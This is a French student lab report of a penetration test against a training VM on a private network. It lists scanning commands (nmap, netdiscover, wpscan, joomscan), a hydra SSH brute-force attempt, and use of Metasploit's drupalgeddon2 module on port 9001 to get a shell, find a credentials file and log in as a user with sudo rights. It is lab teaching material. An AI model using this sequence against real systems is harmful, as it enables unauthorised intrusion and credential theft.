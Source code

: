 # Rapport du TP2

On commence par scanner toutes les machines sur le réseau
`sudo netdiscover -r 10.0.2.0/24`

![1731580718599](image/rapport-tp2/1731580718599.png)

Cela nous permet d'obtenir l'adresse ip de la machine que l'on souhaite attaquer : 10.0.2.15/24

On test la connection entre les 2 machines
`ping 10.0.2.15`

![1731580691249](image/rapport-tp2/1731580691249.png)

on commence par chercher tous les ports ouverts sur la machine cible
`nmap -p- 10.0.2.15`

![1731580972906](image/rapport-tp2/1731580972906.png)

On voit que 5 ports sont ouverts : le 22, le 80, le 5000, le 8081, le 9001

## Port 22

On peut analyser plus en détail le port 22
`nmap -sC -sV -A -p 22 10.0.2.15`

![1731584848917](image/rapport-tp2/1731584848917.png)

On voit qu'il y a du ssh, donc on va faire une attaque brut force en utilisant hydra
`sudo hydra -l root -p /usr/share/wordlists/metasploit/unix-users.txt -t 6 ssh://10.0.2.15`

![1731586985013](image/rapport-tp2/1731586985013.png)

Je ne trouve rien de spécial.


## Port 80

On peut analyser plus en détail le port 80
`nmap -sC -sV -A -p 80 10.0.2.15`

![1731584826875](image/rapport-tp2/1731584826875.png)

Le port 80 est associé au serveur web. On va donc essayer de se rendre à l'url 10.0.2.15 sur le navigateur

![1731587132416](image/rapport-tp2/1731587132416.png)

On tombe sur une page web d'un blog, je ne remarque rien d'anormal ici.

Je fais une analyse avec nikto

![1731588611774](image/rapport-tp2/1731588611774.png)

Ca ne donne rien de concluant

J'essaye de faire une analyse avec dirb sur tous les fichiers, par exemple :
`dirb http://10.0.2.15 /usr/share/wordlists/dirb/common.txt`

Je ne trouve rien d'anormal.

## Port 5000

On peut analyser plus en détail le port 5000
`nmap -sC -sV -A -p 5000 10.0.2.15`

![1731587606795](image/rapport-tp2/1731587606795.png)

On observe qu'il est indiqué que le site est créé avec Wordpress qui est un CMS ("http-generator: WordPress 5.7.2")

En se rendant à l'url 10.0.2.15:5000, on tombe sur un blog sans css fais avec wordpress.

On peut faire un wpscan qui permet de trouver des vulnérabilité sur les sites fonctionnant avec wordpress.
`wpscan --url http://10.0.2.15:5000`

![1731588500737](image/rapport-tp2/1731588500737.png)

Je ne remarque rien de spécial.

## Port 8081

On peut analyser plus en détail le port 5000
`nmap -sC -sV -A -p 8081 10.0.2.15`

![1731589313977](image/rapport-tp2/1731589313977.png)

On remarque que le site est créé avec Joomla, un autre CMS ("http-generator: Joomla ! Open Source Content Management")

En se rendant à l'url 10.0.2.15:8081, on tombe sur une page web où l'on retrouve encore le mot clé Joomla.

![1731589490074](image/rapport-tp2/1731589490074.png)

On peut faire un joomscan qui permet de trouver des vulnérabilité sur les sites Joomla.
`joomscan -u http://10.0.2.15:8081`

![1731591241940](image/rapport-tp2/1731591241940.png)

On constate que joomscan détecte des injections SQL.

## Port 9001

On peut analyser plus en détail le port 9001
`nmap -sC -sV -A -p 9001 10.0.2.15`

![1731589907724](image/rapport-tp2/1731589907724.png)

On remarque que ce site est créé avec Drupal, encore un CMS ("http-generator: Drupal 7")

On peut essayer d'utiliser `msfconsole` pour accéder au shell metasploit qui permet de rechercher des vulnérabilités connues. 

En faisant un `search drupal 7`, on constate qu'il existe des API property injection et des injection SQL connues :

![1731591971649](image/rapport-tp2/1731591971649.png)


On peut accéder à "exploit/unix/webapp/drupal_drupalgeddon2" qui a une API Porperty injection. Puis on accèdes aux options.

![1731592103044](image/rapport-tp2/1731592103044.png)

On constate que RHOSTS n'est pas configuré. RHOSTS permet de spécifié l'ip de la cible. On va donc lui attribué sa valeur "10.0.2.15".
`set rhost 10.0.2.15`

De plus, RPORT est configuré par défaut à 80.

![1731592744502](image/rapport-tp2/1731592744502.png)

Mais dans notre cas, nous voulons exploiter le port 9001. On défini ainsi le nouveau port ciblé.
`set rport 9001`

Dans les options,, on voit que l'ip de la machine locale est déjà bien configurée donc on a pas besoin de la modifier.

![1731592995000](image/rapport-tp2/1731592995000.png)

On fais un run pour se connecter à la machine cible, puis avec un `getuid` on peut constater qu'on est connecter avec l'username www-data (qui a des restrictions).

![1731593182433](image/rapport-tp2/1731593182433.png)


On peut essayer de chercher tous les fichiers contenant le mot "user" :
`search -f *user*`

![1731593496862](image/rapport-tp2/1731593496862.png)

Je ne trouve rien de concluant.

De même je cherche les fichiers contenant le mot "pass"
`search -f *pass*`

Je découvre un fichier suspects "tyrell.pass" qui pourrait contenir des données d'identification.

![1731593786649](image/rapport-tp2/1731593786649.png)

Je consultre le contenu de ce fichier et celui-ci contient bien des identifiants de connexion.
`cat ./misc/tyrell.pass`

![1731593938198](image/rapport-tp2/1731593938198.png)


Je vais essayer de me connecter à la machine cible avec ces identifiants `ssh tyrell@10.0.2.15`

Les identifiants fonctionnent. En tapant la commande `sudo -l` je constate que mon utilisateur a bien les droits root.

![1731594347470](image/rapport-tp2/1731594347470.png)